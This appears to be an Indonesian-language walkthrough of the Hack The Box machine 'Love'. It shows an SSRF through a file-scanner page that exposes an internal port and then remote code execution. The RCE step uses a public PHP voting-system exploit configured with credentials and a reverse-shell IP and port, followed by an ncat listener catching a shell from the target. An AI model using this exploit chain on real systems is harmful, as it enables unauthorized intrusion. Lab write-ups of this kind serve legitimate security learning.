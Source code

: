 ## staging.love.htb - 80 {#staging}

![tigaempat](https://i.postimg.cc/xd9h6Nd5/image.png)

desain yang sangat friendly, nav bar "Demo" diatas mengarah pada url **/beta.php**.

![limaenam](https://i.postimg.cc/3x3QccS2/image.png)<br/>
pada dasarnya web ini adalah demonstrasi dari file scanner yang dimana menyuruh kita untuk meletakkan suatu URL file. Tapi kali ini beda kita akan buat local server `python3 -m http.server 7000`, dan memasukkan IP kita pada kolom textbox. response yang didapat.

![kek](https://i.postimg.cc/MpfVg9nK/image.png)

haha, directory listing. oka we got it.

## Shell as phoebe {#phoebe}
## SSRF {#SSRF}
Karna tadi saya mendapat respon yang lumayan membuka kesempatan bermanfaat untuk melangkah maju. berarti yang saya hadapi adalah Server-Side Request Forgery (SSRF) exploit. kali ini saya akan mencoba meletakkan URL localhost dan menambahkan port 5000 yang dimana pada saat recon port tersebut tidak memiliki tugas apapun, barangkali itu adalah POST untuk menyimpan suatu identitas atau credentials dari pemilik website, probably.

`http://127.0.0.1:5000`<br/>
![asdasd](https://i.postimg.cc/hv430kPG/image.png)

## RCE {#RCE}
`searchsploit -m php/webapps/49445.py`<br/>
```py
# --- Edit your settings here ----
IP = "love.htb" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "10.10.14.126" # Reverse shell IP
REV_PORT = "1337" # Reverse port 
# --------------------------------
```
setelah mengunduh exploit saya mengubah konfigurasi dan memperbaiki beberapa error pada kode python. sebenarnya cuma ngilangin **/votesystem** doang agar exploit berjalan lancar.
```py
INDEX_PAGE = f"http://{IP}/admin/index.php"
LOGIN_URL = f"http://{IP}/admin/login.php"
VOTE_URL = f"http://{IP}/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/images/shell.php"
```
nyalakan **ncat** untuk listening port. dan yap.
```powershell
arin@aoba ~/Desktop/htb/Love $ ncat -nvlp 1337
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.239.
Ncat: Connection from 10.10.10.239:52521.
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>cd Users\Phoebe\Desktop

C:\Users\Phoebe\Desktop>type user.txt
```